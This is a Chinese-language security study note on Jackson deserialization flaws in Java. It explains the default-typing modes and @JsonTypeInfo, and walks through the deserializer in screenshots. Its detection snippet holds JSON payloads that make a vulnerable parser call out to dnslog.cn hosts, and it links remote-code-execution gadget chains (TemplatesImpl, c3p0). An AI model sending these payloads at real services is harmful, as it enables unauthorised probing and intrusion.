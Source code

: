 # JackSon

> http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB/
>
> https://b1ue.cn/archives/189.html

## 探测

```
ObjectMapper objectMapper = new ObjectMapper();
objectMapper.enableDefaultTyping();
String jsonResult = "[\"java.util.HashSet\",[[\"java.net.URL\",\"http://1wc3gw.dnslog.cn\"]]]";
objectMapper.readValue(jsonResult,Object.class);
["java.net.InetSocketAddress","nqigwr.dnslog.cn"]
["java.net.InetAddress","ap6d50.dnslog.cn"]
```

## 利用方式

其他payload: https://github.com/threedr3am/learnjavabug/tree/master/jackson/src/main/java/com/threedr3am/bug/jackson

1. TemplatesImpl

   http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB/

   ```
   https://github.com/shengqi158/Jackson-databind-RCE-PoC
   ```

2. c3p0

   http://redteam.today/2020/04/18/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget/

3. CVE [CVE](/src/main/java/com/dem0/cve)

## 特殊的机制-多态类型绑定
- Global default typing  
四种注解的含义
>- JAVA_LANG_OBJECT: only affects properties of type Object.class  
>
>  只影响Object.class的对象
>
>- OBJECT_AND_NON_CONCRETE: affects Object.class and all non-concrete types (abstract classes, interfaces)
>
>  影响Class 和 抽象类 接口 默认
>
>- NON_CONCRETE_AND_ARRAYS: same as above, and all array types of the same (direct elements are non-concrete types or Object.class)
>
>  上面的+上面的array
>
>- NON_FINAL: affects all types that are not declared ‘final’, and array types of non-final element types.
>
>  除了 final
JAVA_LANG_OBJECT: 会输出类的相关信息 并且在最后会还原

OBJECT_AND_NON_CONCRETE:   接口的类也被反序列化了

> ```
> //{"age":10,"name":"com.l1nk3r.jackson.l1nk3r","object":["com.l1nk3r.jackson.l1nk3r",{"length":100}],"sex":["com.l1nk3r.jackson.MySex",{"sex":0}]} 
> ```

NON_CONCRETE_AND_ARRAYS： 和描述一样

- @JsonTypeInfo 注解

  > ```
  > @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)
  > 只输出参数相关的内容和类什么的无关
  > @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
  > 包含的类的相关信息，并会进行相关调用
  > {"name":"l1nk3r","age":100,"obj":{"@class":"com.l1nk3r.jackson.Height","h":100}}
  > @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
  > 和 id.CLASS 的区别在 @class 变成了 @c 
  > @JsonTypeInfo(use = JsonTypeInfo.Id.NAME)
  > 不携带类的名字 没有利用
  > @JsonTypeInfo(use = JsonTypeInfo.Id.COSTOM)
  > 这个得自己写解析器
  > ```

## OBJECT_AND_NON_CONCRETE 解析

根据typeid寻找反序列化

![image-20220111194949841](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220111194949841.png)

然后调用`deser.deserialize()`

![image-20220111195030212](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220111195030212.png)

![image-20220111195052313](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220111195052313.png)

然后使用

![image-20220111195114719](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220111195114719.png)

这是对于最外层的People类的。

对于sex。

![image-20220111195515087](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220111195515087.png)

调用这个方法进去，

![image-20220111195629953](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220111195629953.png)

然后经过中间的处理设置Type然后再反序列化，调用构造方法。并且再这个也是一个反射调用`setter`

